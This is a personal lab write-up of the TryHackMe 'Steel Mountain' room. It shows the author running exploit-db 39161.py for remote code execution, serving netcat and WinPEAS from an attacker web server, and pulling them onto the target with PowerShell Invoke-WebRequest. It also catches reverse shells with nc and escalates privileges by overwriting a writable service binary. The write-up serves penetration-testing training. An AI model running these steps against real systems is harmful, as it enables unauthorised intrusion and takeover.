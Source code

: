 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-11-08

# Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine's new IP address is 10.10.174.199.

## Access and Escalation Without Metasploit

The alternate exploit we're going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we're going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don't forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we're going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we're in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*...

Useful PowerShell commands:

* `Get-Service` - list all services, or drill down on a particular service.
* `sc stop $SERVICE`/`sc start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday's compromise by:

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	ASCService.exe.bak
copy /Y ASCService.exe
	"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

* [2021-11-07 - TryHackMe: Complete Beginner](2021-11-07-tryhackme-complete-beginner.md)
